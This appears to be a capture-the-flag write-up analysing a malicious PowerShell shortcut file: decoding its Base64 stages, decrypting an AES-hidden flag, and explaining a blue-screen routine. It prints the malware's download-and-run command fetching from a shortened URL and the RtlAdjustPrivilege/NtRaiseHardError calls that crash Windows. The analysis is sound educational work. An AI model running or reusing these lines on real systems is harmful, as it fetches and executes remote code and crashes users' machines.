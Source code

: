 # Russian Roulette

## Description

```
My PowerShell has been acting really weird!! 
It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
````

## Solved it within top 8 😎
![Solved](solved.png)


## Malware Analysis Procedure

This is a malicious file; use a sandbox environment. I am running Flare VM.

[Flare VM on GitHub](https://github.com/mandiant/flare-vm)


## Default Analysis Steps

When I conduct a malware analysis, I usually check for:

- **Network connections** → Wireshark
- **Memory activities** → DumpIt → Volatility or MemProcFS
- **Processes** → Process Monitor from Sysinternals
- **Disk activity**



## Steps to solve the CTF

Download the file and extract it in a safe env.



## Initial File Inspection

The first thing I do with the file is to run the command:

file <filename>

```
Windows PowerShell.lnk: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Feb 17 05:44:00 2024, mtime=Thu Oct 03 17:53:00 2024, atime=Sat Feb 17 05:44:00 2024, length=450560, window=hidenormalshowminimized.
```

The file is a LNK (shortcut) file.

Right-click the file and select Properties to view the targets.

This reveals that PowerShell executes a Base64 string, which can be decoded to extract the following command:
```
iwr is.gd/jwr7JD -o $env:TMP/.cmd; & $env:TMP/.cmd
```


## Process Analysis
I can also see in the processes captured with Process Monitor that cmd spawns a PowerShell process, which then runs a Base64 string.

PID: 3660
PPID: 2116
I save the Base64 string to a file and run:
```
Base64.exe -d base64string.txt > stage2.txt
```
After decoding everything, we find that it resembles a PowerShell script with embedded C# code.

We refine the code to make it more readable (see the stage2.txt file in the folder).


## Decryption Process
We observe that decryption takes place, and we want to make the code "safe" by ONLY printing the decrypted output. Remove evrything else that dosnt have to do with the decryption.

How Does the Decryption Process Work?
Three Base64-encoded strings (c, k, and i) were decoded into byte arrays:

```c```: The encrypted text.
```k```: The AES key.
```i```: The Initialization Vector (IV) for AES.

I modify the code to print the decrypted string (see the aesdec.txt file).

Run the code and get the response: flag{REDACTED}

-------------------------------------------------------

## Note + Extra Nerdiness

[Link to additional resources](https://gist.github.com/MerijnHendriks/97f3096a5d779643ba6029d03dd86992)
[Link to additional resources](https://www.pinvoke.net/index.aspx)

If you run the code, you will experience a BSOD (Blue Screen of Death).

Why?
The code utilizes ntdll.dll, which implements basic functions for Windows. It can cause severe issues if mishandled.

```
RtlAdjustPrivilege(19, true, false, out o);
```
The number 19 represents SeShutdownPrivilege (allows the system to restart or shut down services).
```
NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
```
NtRaiseHardError is a function that can trigger a "serious error," leading to a BSOD to prevent damage to the system.